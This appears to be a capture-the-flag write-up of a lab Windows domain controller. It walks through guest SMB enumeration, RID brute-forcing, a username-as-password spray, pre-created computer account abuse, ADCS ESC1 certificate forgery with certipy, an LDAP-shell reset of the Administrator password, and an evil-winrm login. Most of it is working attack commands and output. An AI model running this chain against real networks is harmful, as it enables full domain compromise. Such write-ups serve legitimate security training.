Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=11/17%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6AFBA377%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=108%TI=I%II=I%SS=S%TS=A)
SEQ(SP=106%GCD=1%ISR=10F%TI=I%TS=A)
OPS(O1=M542NW8ST11%O2=M542NW8ST11%O3=M542NW8NNT11%O4=M542NW8ST11%O5=M542NW8ST11%O6=M542ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M542NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.006 days (since Tue Nov 17 00:36:18 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 36202/tcp): CLEAN (Timeout)
|   Check 2 (port 26821/tcp): CLEAN (Timeout)
|   Check 3 (port 52836/udp): CLEAN (Timeout)
|   Check 4 (port 60044/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 1m42s, deviation: 0s, median: 1m42s
| smb2-time: 
|   date: 2026-11-17T00:45:42
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   91.19 ms 10.10.16.1
2   91.27 ms 10.129.234.44

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 17 00:44:39 2026 -- 1 IP address (1 host up) scanned in 191.59 seconds
```

we can start by syncing with DC clock skew
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ sudo ntpdate 10.129.234.44
2026-11-17 00:51:38.699259 (+0000) +103.362259 +/- 0.015418 10.129.234.44 s1 no-leap
CLOCK: time stepped by 103.362259
```

## Foothold - Trainee Share

guest account is enabled we can enumerate the non-default share
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ nxc smb 10.129.234.44 -u "guest" -p "" --shares
SMB         10.129.234.44   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.44   445    DC               [+] retro.vl\guest: 
SMB         10.129.234.44   445    DC               [*] Enumerated shares
SMB         10.129.234.44   445    DC               Share           Permissions     Remark
SMB         10.129.234.44   445    DC               -----           -----------     ------
SMB         10.129.234.44   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.44   445    DC               C$                              Default share
SMB         10.129.234.44   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.44   445    DC               NETLOGON                        Logon server share 
SMB         10.129.234.44   445    DC               Notes                           
SMB         10.129.234.44   445    DC               SYSVOL                          Logon server share 
SMB         10.129.234.44   445    DC               Trainees        READ         
```

we can inspect or the file inside the smb 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ smbclient -U 'guest' "\\\\10.129.234.44\\Trainees"
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jul 23 22:58:43 2023
  ..                                DHS        0  Wed Jun 11 15:17:10 2025
  Important.txt                       A      288  Sun Jul 23 23:00:13 2023

                4659711 blocks of size 4096. 1324574 blocks available
smb: \> get Important.txt 
getting file \Important.txt of size 288 as Important.txt (1.7 KiloBytes/sec) (average 1.7 KiloBytes/sec)
smb: \> 
```

it seems like all the trainees are using same password


also we can enumerate the users by --rid-brute force and export to an file
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Seppukku]
└─$ nxc smb 10.129.234.44 -u "guest" -p "" --rid-brute 20000  --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee username.txt
Administrator
Guest
krbtgt
DC$
trainee
BANKING$
jburley
tblack
```

we can try to see different combination of password and username spray
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ nxc smb 10.129.234.44 -u "username.txt" -p "username.txt" --no-bruteforce 
SMB         10.129.234.44   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.44   445    DC               [-] retro.vl\Administrator:Administrator STATUS_LOGON_FAILURE 
SMB         10.129.234.44   445    DC               [-] retro.vl\Guest:Guest STATUS_LOGON_FAILURE 
SMB         10.129.234.44   445    DC               [-] retro.vl\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.129.234.44   445    DC               [-] retro.vl\DC$:DC$ STATUS_LOGON_FAILURE 
SMB         10.129.234.44   445    DC               [+] retro.vl\trainee:trainee 
```

we got hit on `trainee : trainee`

we can start by enumerating `SMB` service 
```bash

┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ nxc smb 10.129.234.44 -u "trainee" -p "trainee" --shares 
SMB         10.129.234.44   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.44   445    DC               [+] retro.vl\trainee:trainee 
SMB         10.129.234.44   445    DC               [*] Enumerated shares
SMB         10.129.234.44   445    DC               Share           Permissions     Remark
SMB         10.129.234.44   445    DC               -----           -----------     ------
SMB         10.129.234.44   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.44   445    DC               C$                              Default share
SMB         10.129.234.44   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.44   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.234.44   445    DC               Notes           READ            
SMB         10.129.234.44   445    DC               SYSVOL          READ            Logon server share 
SMB         10.129.234.44   445    DC               Trainees        READ         
```

We have one more non-default `SHARE`
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ smbclient -U 'trainee' "\\\\10.129.234.44\\Notes"
Password for [WORKGROUP\trainee]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Apr  9 04:12:49 2025
  ..                                DHS        0  Wed Jun 11 15:17:10 2025
  ToDo.txt                            A      248  Sun Jul 23 23:05:56 2023
  user.txt                            A       32  Wed Apr  9 04:13:01 2025

                4659711 blocks of size 4096. 1326067 blocks available
smb: \> get user.txt 
getting file \user.txt of size 32 as user.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> get ToDo.txt 
getting file \ToDo.txt of size 248 as ToDo.txt (1.4 KiloBytes/sec) (average 0.8 KiloBytes/sec)
```

## Lateral Movement - pre2k Machine Account

their seems to be an old pre-2k computer which we can use `pre2k` module from nxc to abuse it

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ nxc ldap 10.129.234.44 -u "trainee" -p "trainee" -M pre2k
LDAP        10.129.234.44   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:retro.vl) (signing:None) (channel binding:Never) 
LDAP        10.129.234.44   389    DC               [+] retro.vl\trainee:trainee 
PRE2K       10.129.234.44   389    DC               Pre-created computer account: BANKING$
PRE2K       10.129.234.44   389    DC               [+] Found 1 pre-created computer accounts. Saved to /home/penguin/.nxc/modules/pre2k/retro.vl/precreated_computers.txt
PRE2K       10.129.234.44   389    DC               [+] Successfully obtained TGT for banking@retro.vl
PRE2K       10.129.234.44   389    DC               [+] Successfully obtained TGT for 1 pre-created computer accounts. Saved to /home/penguin/.nxc/modules/pre2k/ccache
```

now we can use the TGT ticket to for further enumeration  by exporting it
```bash

┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ export KRB5CCNAME=/home/penguin/.nxc/modules/pre2k/ccache/banking.ccache

┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ klist
Ticket cache: FILE:/home/penguin/.nxc/modules/pre2k/ccache/banking.ccache
Default principal: banking@RETRO.VL

Valid starting     Expires            Service principal
11/17/26 02:07:40  11/17/26 12:07:40  krbtgt/RETRO.VL@RETRO.VL
        renew until 11/18/26 02:07:40
```

Nothing specfic on SMB shares 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ nxc smb 10.129.234.44 --use-kcache --shares
SMB         10.129.234.44   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.44   445    DC               [+] RETRO.VL\banking from ccache 
SMB         10.129.234.44   445    DC               [*] Enumerated shares
SMB         10.129.234.44   445    DC               Share           Permissions     Remark
SMB         10.129.234.44   445    DC               -----           -----------     ------
SMB         10.129.234.44   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.44   445    DC               C$                              Default share
SMB         10.129.234.44   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.44   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.234.44   445    DC               Notes           READ            
SMB         10.129.234.44   445    DC               SYSVOL          READ            Logon server share 
SMB         10.129.234.44   445    DC               Trainees        READ            
```

we can check for any specfic ACL on bloodhound
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ bloodhound-ce-python -u banking -k -no-pass -ns 10.129.234.44  -d retro.vl  -c all --zip
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: retro.vl
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc.retro.vl
INFO: Testing resolved hostname connectivity dead:beef::2b0e:5cbe:5987:a133
INFO: Trying LDAP connection to dead:beef::2b0e:5cbe:5987:a133
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.retro.vl
INFO: Testing resolved hostname connectivity dead:beef::2b0e:5cbe:5987:a133
INFO: Trying LDAP connection to dead:beef::2b0e:5cbe:5987:a133
INFO: Found 7 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: DC.retro.vl
INFO: Done in 00M 10S
INFO: Compressing output into 20261117021628_bloodhound.zip
```

## Privilege Escalation - ADCS ESC1

nothing specific on bloodhound ! lets move forward by enumerating AD CS 
with certipy we can look for any vulnerable templates
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ certipy-ad find -u 'banking$@retro.vl' -k -no-pass -dc-ip 10.129.234.44 -target dc.retro.vl -target-ip 10.129.234.44 -vulnerable -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'retro-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'retro-DC-CA'
[*] Checking web enrollment for CA 'retro-DC-CA' @ 'DC.retro.vl'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace                                                                                                                                                 
[!] Error checking web enrollment: timed out                                                                                                                                         
[!] Use -debug to print a stacktrace                                                                                                                                                 
[*] Enumeration output:                                                                                                                                                              
Certificate Authorities                                                                                                                                                              
  0                                                                                                                                                                                  
    CA Name                             : retro-DC-CA                                                                                                                                
    DNS Name                            : DC.retro.vl                                                                                                                                
    Certificate Subject                 : CN=retro-DC-CA, DC=retro, DC=vl                                                                                                            
    Certificate Serial Number           : 7A107F4C115097984B35539AA62E5C85                                                                                                           
    Certificate Validity Start          : 2023-07-23 21:03:51+00:00                                                                                                                  
    Certificate Validity End            : 2028-07-23 21:13:50+00:00                                                                                                                  
    Web Enrollment                                                                                                                                                                   
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : RETRO.VL\Administrators
      Access Rights
        ManageCa                        : RETRO.VL\Administrators
                                          RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        ManageCertificates              : RETRO.VL\Administrators
                                          RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        Enroll                          : RETRO.VL\Authenticated Users
Certificate Templates
  0
    Template Name                       : RetroClients
    Display Name                        : Retro Clients
    Certificate Authorities             : retro-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Template Created                    : 2023-07-23T21:17:47+00:00
    Template Last Modified              : 2023-07-23T21:18:39+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : RETRO.VL\Domain Admins
                                          RETRO.VL\Domain Computers
                                          RETRO.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : RETRO.VL\Administrator
        Full Control Principals         : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        Write Owner Principals          : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        Write Dacl Principals           : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        Write Property Enroll           : RETRO.VL\Domain Admins
                                          RETRO.VL\Domain Computers
                                          RETRO.VL\Enterprise Admins
    [+] User Enrollable Principals      : RETRO.VL\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

Bingo as domain computer we have the right to authenticate as user

now using certypy-ad  to request a certificate, authenticating as BANKING$ but requesting the UPN of administrator@retro.vl which has been failed several time because i haven't added sid , and `-key-size 4096` is required because the RetroClients template sets
Minimum RSA Key Length to 4096 the default 2048 would be rejected.
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ certipy-ad req -u 'banking$@retro.vl' -k -no-pass -dc-ip 10.129.234.44 -dc-host dc.retro.vl -target dc.retro.vl -target-ip 10.129.234.44 -ca 'retro-DC-CA' -template 'RetroClients' -upn 'administrator@retro.vl' -sid 'S-1-5-21-2983547755-698260136-4283918172-500' -key-size 4096 -dynamic-endpoint
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 12
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@retro.vl'
[*] Certificate object SID is 'S-1-5-21-2983547755-698260136-4283918172-500'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```
then using the administrator.pfx we can authenticate and get `TGT` and  ntlm hash
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.234.44
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@retro.vl'
[*]     SAN URL SID: 'S-1-5-21-2983547755-698260136-4283918172-500'
[*]     Security Extension SID: 'S-1-5-21-2983547755-698260136-4283918172-500'
[*] Using principal: 'administrator@retro.vl'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
[ble: exit 1]
```

## Domain Admin - LDAP Shell

As a workaround, we use `-ldap-shell` which opens an authenticated LDAPS session as Administrator (via certificate auth over Schannel, bypassing the broken PKINIT). Since the session is authenticated as Administrator, we have full rights to modify any user  including force-changing Administrator's own password without knowing the current one.
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.234.44 -ldap-shell
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@retro.vl'
[*]     SAN URL SID: 'S-1-5-21-2983547755-698260136-4283918172-500'
[*]     Security Extension SID: 'S-1-5-21-2983547755-698260136-4283918172-500'
[*] Connecting to 'ldaps://10.129.234.44:636'
[*] Authenticated to '10.129.234.44' as: 'u:RETRO\\Administrator'
Type help for list of commands

# id
*** Unknown syntax: id

# whoami
u:RETRO\Administrator
# change_password Administrator NewP@ssw0rd123!
Got User DN: CN=Administrator,CN=Users,DC=retro,DC=vl
Attempting to set new password of: NewP@ssw0rd123!
Password changed successfully!

# exit
Bye!
```

then we can authenticate as administrator with newly created password
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Retri]
└─$ evil-winrm -i 10.129.234.44 -u Administrator -p 'NewP@ssw0rd123!'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
dir
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          4/8/2025   8:11 PM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
40fce9c3f09024bcab29d377ee1ed071
```


